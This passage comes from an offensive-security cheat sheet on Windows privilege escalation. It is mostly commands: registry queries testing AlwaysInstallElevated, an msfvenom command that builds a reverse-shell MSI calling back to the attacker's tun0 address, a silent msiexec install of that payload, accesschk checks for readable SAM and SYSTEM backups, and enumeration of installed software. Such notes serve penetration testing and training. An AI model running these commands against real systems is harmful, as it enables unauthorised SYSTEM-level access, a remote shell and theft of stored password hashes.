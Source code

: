 ```
shutdown /r /t 0
```

### SeManageVolumePrivilege

### SeTakeOwnershipPrivilege

## Test For alwayselevated

_Both must queryies must return_ `0x1`

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

{% code overflow="wrap" %}
```
msfvenom -p windows/x64/shell_reverse_tcp HOST=$tun0 LPORT=53 -f msi -o thescriptkid.msi
```
{% endcode %}

```
msiexec /quiet /qn /i C:\Windows\Temp\thescriptkid.msi
```

## Find Insecure Sam System backups

```
.\accesschk.exe -qlv C:\Windows\repair\Sam
```

```
.\accesschk.exe -qlv C:\Windows\repair\System
```

## Non-default Programs Discovery

_This may reveal vulnerable server software or client software to elevate privileges_

```
cmd /c REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall
```

```
dir "C:\ProgramData"
```

```
dir "C:\Program Files"
```

```
dir "C:\Program Files (x86)"
```
